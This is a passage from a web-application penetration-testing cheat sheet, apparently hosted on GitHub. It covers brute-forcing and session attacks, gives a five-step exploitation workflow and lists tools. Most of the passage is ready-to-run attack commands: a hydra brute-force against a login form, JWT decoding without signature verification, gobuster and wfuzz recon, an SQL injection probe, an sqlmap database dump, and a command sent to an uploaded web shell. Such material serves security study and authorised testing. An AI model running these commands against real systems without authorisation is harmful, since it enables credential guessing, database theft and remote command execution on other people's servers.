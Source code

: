 ***

#### 🧠 10. Authentication & Session Issues

**Brute Force**

```bash
hydra -l admin -P rockyou.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid"
```

**Session Prediction**

Check for sequential cookies or JWT tampering:

```python
import jwt
print(jwt.decode(token, options={"verify_signature": False}))
```

***

### IV. 🧠 Exploitation Workflow Example

```bash
# Step 1: Recon
whatweb target.com
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt

# Step 2: Identify Input Points
wfuzz -u http://target.com/page.php?FUZZ=value -w params.txt

# Step 3: Test for Injection
curl "http://target.com/page.php?id=1'--+"

# Step 4: Exploit
sqlmap -u "http://target.com/page.php?id=1" --dump

# Step 5: Post-Exploitation
curl "http://target.com/shell.php?cmd=whoami"
```

***

### V. 🧩 Useful Tools

| Tool                     | Description                                        |
| ------------------------ | -------------------------------------------------- |
| **Burp Suite**           | HTTP interception, fuzzing, repeater, collaborator |
| **WFuzz / FFUF**         | Parameter, directory, and fuzzing attacks          |
| **SQLMap**               | SQL injection exploitation                         |
| **XSStrike / Dalfox**    | XSS discovery and exploitation                     |
| **Commix**               | Command injection exploitation                     |
| **UploadScanner**        | File upload testing automation                     |
| **WhatWeb / Wappalyzer** | Web technology fingerprinting                      |
| **Dirsearch / Gobuster** | Directory brute-forcing                            |
